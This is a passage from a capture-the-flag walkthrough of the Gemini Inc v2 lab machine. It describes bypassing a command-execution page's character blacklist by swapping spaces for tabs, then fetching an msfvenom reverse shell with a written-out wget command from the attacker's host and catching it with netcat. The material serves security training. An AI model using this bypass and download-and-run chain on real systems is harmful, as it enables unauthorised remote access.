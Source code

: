 Something strikes me as familiar when I look at the HTML source of `/new-groups.php`—the **Execute Command** page.

![0.747hclxg2ig](/assets/images/posts/gemini-inc-v2-walkthrough/0.747hclxg2ig.png)

Recall the file `blacklist.txt` uncovered during fuzzing? It had a test for illegal characters in the `testcmd` parameter. A readily available web shell that executes commands is in front of us, and yet we've to bypass the test for illegal characters. What a bummer!

![0.y241xdjfa4g](/assets/images/posts/gemini-inc-v2-walkthrough/0.y241xdjfa4g.png)

## Execute Command

The most common shell in Linux distributions is `bash` and it uses whitespace as the separator between the command, option(s), and argument(s). For example, in this command execution— `wget -O /tmp/rev 192.168.10.128/rev`, the space character is the separator between the command `wget`, the option `-O`, and the arguments `/tmp/rev` and `192.168.10.128/rev`. In fact, `bash` defines space, tab, and the newline character as whitespace. In other words, we can substitute the space character (`\x20`) with the tab character (`\x09`) in the previous example and it would still execute.

With this in mind, let's generate a reverse shell with `msfvenom` and name it as `rev`; host it with Python's `SimpleHTTPServer`, and execute `wget -O /tmp/rev 192.168.10.128/rev` in the **Execute Command** page to transfer it over, replacing the space character with the tab character. We then execute `/tmp/rev` in the **Execute Command** page to launch the reverse shell. We also need to get the `netcat` listener ready to catch the reverse shell.
